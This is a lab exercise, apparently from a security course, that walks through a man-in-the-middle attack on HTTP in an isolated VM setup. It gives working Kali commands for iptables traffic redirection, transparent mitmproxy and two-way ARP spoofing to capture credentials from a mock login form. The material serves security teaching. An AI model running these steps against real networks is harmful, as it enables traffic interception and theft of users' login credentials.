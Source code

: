 ## Task 1: MITM Attack on HTTP

Execute the commands below on the attacker's VM (Kali Linux)

```bash
# check these tools are installed
which mitmproxy
which arpspoof

# check interface name (should be eth0)
ip -o -4 addr show | grep '192\.168\.99\.' -n

sudo sysctl -w net.ipv4.ip_forward=1

# HTTP redirect
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d 192.168.99.2 --dport 80  -j REDIRECT --to-port 8080
# HTTPS redirect
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp -d 192.168.99.2 --dport 443 -j REDIRECT --to-port 8080

# confirm
sudo iptables -t nat -L PREROUTING -n -v --line-numbers | grep 192.168.99.2

sudo mitmproxy --mode transparent --listen-port 8080 --showhost

# you need 2 new terminal windows concurrently for ARP spoofing
# open a new terminal (terminal A)
sudo arpspoof -i <IFACE> -t 192.168.99.2 192.168.99.1
# open a new terminal (terminal B)
sudo arpspoof -i <IFACE> -t 192.168.99.1 192.168.99.2
```

And then, on the victim VM, open the browser and go to:
- http://victim.com (HTTP)

fill out the simulated login form and submit it, then get back to the attacker's VM (kali linux), if everything is correct, you should be able to capture the login information.